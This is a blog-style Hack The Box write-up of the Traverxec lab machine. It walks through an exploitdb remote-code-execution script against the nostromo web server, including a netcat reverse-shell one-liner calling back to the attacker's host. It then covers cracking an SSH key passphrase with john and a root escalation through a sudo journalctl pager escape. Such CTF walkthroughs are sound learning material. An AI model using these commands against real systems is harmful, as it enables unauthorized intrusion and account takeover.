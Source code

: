 ```yaml
---
layout: single
title: "Hack The Box Write-up #1 : Traverxec"
excerpt: "My walkthrough of Traverxec Machine from HackTheBox"
date: 2020-04-11
header:
  teaser: /assets/images/traverxec-walkthrough/traverxec.png
  teaser_home_page: true
classes: wide
categories:
  - hackthebox
  - infosec
tags:
  - nostromo  
  - journalctl
  - gtfobins
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/traverxec.png)

## Enumeration

We start by doing a nmap scan which gives the following results :

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 04:12 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.82 seconds
```

We have 2 ports opened from the initial scan : 22 (SSH) , 80 (HTTP) …                                                            
Before even trying to enumerate the webpage , We can notice “nostromo 1.9.6” running on port 80.                                  

I made a quick research of the mentioned service running on the webpage and ended up with the
following results :
![searchsploit](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t2.png)

- Command Execution… 

That seems nasty.
First lets copy the the script to a more flexible directory and start to test it.

```
cp /usr/share/exploitdb/exploits/multiple/remote/47837.py  /root/machines/traverxec
```

```
python 47837.py
```

![rce](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t3.png)

We see there are 3 required parameters : 
- Target ip address (10.10.10.165) 
- Target Port (80) 
- Command to execute (ex. Whoami).

```
python 47837.py 10.10.10.165 80 whoami
```

![proof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t4.png)

As we see … we could execute commands to the remote server using the script from exploitdb.
Lets try and see if we can get ourselves a reverse shell to have a better experience while running commands on the remote server.

We are going to use netcat to do this…

```
python 47837.py 10.10.10.165 80 “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f”
```

![shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t5.png)

We have a reverse shell on the remote server as www-data.
From now we can try and enumerate the webserver in /var/nostromo :

![enum](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t6.png)

There seems to be the conf folder which may include possible information on how to escalate to user.

Reading nhttpd.conf file We see a lot of juicy information :

![conf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t7.png)

We can see that david which is also an user in the current machine seems to have been configured as the server admin, and more than that we can see that the public_www folder is located in /home

While we tried to enumerate … there was no such public_www in /home :

![home](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t8.png)

But since we saw : david was the server admin , the public_www should probably be inside his folder too.
We cannot actually list the files inside david home folder but we can try to directly access the mentioned directory as www-data and see if we can find something else :

![data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t9.png)

As expected , we could directly access : public_www and we see the index.html file alongside an interesting directory claiming to hold protected files .                                                                                                                                                          
There seems to be a backup of the ssh keys inside there so I grabbed the files to my machine to try and login as user david

![backup](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/tx.png)

## USER ESCALATION

id_rsa seems to be encrypted and we can probably use john to convert and try to crack it :
![hash](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t10.png)

We pass the generated ssh hash to john and run it against rockyou.txt wordlist to see if we could get anything interesting…

![key](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t11.png)

John managed to succesfully crack the file , and the key seems to be “hunter”.                                                  
Lets try and login with the file since we have its key now :

![ssh](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t12.png)

We could succesfully login using ssh and now we can also easily grab the user flag. :)


## ROOT ESCALATION

After logging in , this is what we have in the home folder except user.txt :

![content](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t13.png)

- bin seems interesting , so we will enumerate it a little more to see what could it bring to us…

We have 2 files inside bin folder :

- A script written in bash which happens to read the last 5 log lines of nostromo :

![script](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t14.png)

- A header for the above script :

![header](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t15.png)

By analyzing the first script , we see that it is running journalctl as sudo against nostromo service to show the last 5 lines, and also I noticed that the execution of /usr/bin/cat prevents journalctl from remaining executed .

It looks like we have permissions to run the above sudo command against nostromo without the need of the password .

The bin folder is writable from our user so we can try to make another similar script but without usr/bin/cat in it . This way journalctl can remain executed on the script and we can try to abuse it somehow to escalate to root.

![customs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t16.png)

As we see now , after executing our edited script , journalctl remains executed and now we can attempt to abuse it to gain root access …

The following website can help us with the simplest methods to escalate to a root shell from journalctl:
[GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/)

And as we see , we can simply type !/bin/sh in the running session of journalctl to get a system shell

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t17.png)

This happened to work perfectly … and now we have a shell executed as root .

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t18.png)

This way we can easily navigate to root folder and grab the root flag.

### TRAVERXEC WAS INDEED A GOOD EASY BOX AND WE ENJOYED IT MAXIMALLY WHILE NAVIGATING THROUGH THE STEPS.

## THANK YOU FOR READING !

![profile](https://www.hackthebox.eu/badge/image/111862)
